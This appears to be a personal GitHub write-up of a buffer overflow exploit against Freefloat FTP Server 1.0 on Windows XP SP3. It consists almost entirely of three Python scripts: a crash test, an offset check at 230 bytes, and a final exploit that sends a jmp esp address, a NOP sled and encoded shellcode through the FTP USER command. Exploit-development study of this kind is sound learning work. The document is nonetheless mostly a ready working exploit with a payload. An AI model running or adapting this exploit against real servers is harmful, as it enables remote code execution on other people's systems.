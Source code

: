 # Freefloat FTP Server 1.0 _ Win XP SP3 - Buffer Overflow
-   cve details: N/A
-   Target: Freefloat FTP Server 1.0
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger


I create a exploit for send Buffer :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*500

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

Program is crashed and I use mona for create pattern and after check Offset is 230 . in this stage my exploit change to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*230 + "BBBB" + "C"*100

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

It's OK. I need "jmp esp" address and add it. My last exploit is:

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*230 + "\x49\xf0\xde\x77" + "\x90" * 20 +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()

```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE%20N%5CA%20-%20Freefloat%20FTP%20Server%20-%20BOF/images/1.PNG)
